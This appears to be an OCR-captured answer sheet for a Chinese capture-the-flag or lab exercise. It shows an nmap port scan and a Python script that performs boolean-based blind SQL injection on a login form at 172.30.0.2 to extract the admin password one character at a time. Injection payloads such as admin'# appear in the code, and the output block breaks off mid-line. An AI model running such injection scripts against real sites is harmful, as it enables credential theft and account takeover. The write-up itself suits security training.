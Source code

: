 
4.

（1）目标主机172.30.0.2在1~100间开放的端口共有 (2)个  

```bash
# nmap scan open ports
$ nmap -p 1-100 172.30.0.2
```

（2）目标主机172.30.0.2存在SQL注入漏洞，经过漏洞利用，查得其中的FLAG为：(VMC{WELCOME}) 。

```python
# 先打开浏览器进入http://173.30.0.2
# 然后输入username = admin'# password = 1 返回的是【用户存在！】说明admin在数据库中
# 并且题目也说明了是要“Hack admin password & Get flag”
# 可以采用sql盲注的方式
# 下面是示例python代码

import requests

# 目标URL 替换为指定的IP
target_url = "http://172.30.0.2/"

# 管理员用户名
admin_username = "admin"

# 初始化密码变量
admin_password = ""

# 获取管理员密码长度
for length in range(1, 50):  # 假设密码长度不超过50
    payload = {
        'username': admin_username,
        'password': f"123' OR LENGTH(password)={length}#"
    }
    response = requests.post(target_url, data=payload)
    
    if "用户存在！" in response.text.split('\n', 1)[0]: # 用户存在！在返回报文的第一行
        password_length = length
        print(f"Password length: {password_length}")
        # print(response.text)
        break

# 猜测密码每个字符
for i in range(1, password_length + 1):
    for char in " !\"#$%&'()*+,-./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\\]^_`abcdefghijklmnopqrstuvwxyz{|}~":
        payload = {
            'username': admin_username,
            'password': f"123' OR SUBSTRING(password,{i},1)='{char}'#"
        }
        response = requests.post(target_url, data=payload)

        if "用户存在！" in response.text.split('\n', 1)[0]: # 用户存在！在返回报文的第一行
            admin_password += char
            print(f"Current password: {admin_password}")
            break

print(f"username: {admin_username} \npassword: {admin_password}")


# 即可得到如下输出
"""
    Password length: 12
    Current password: V
```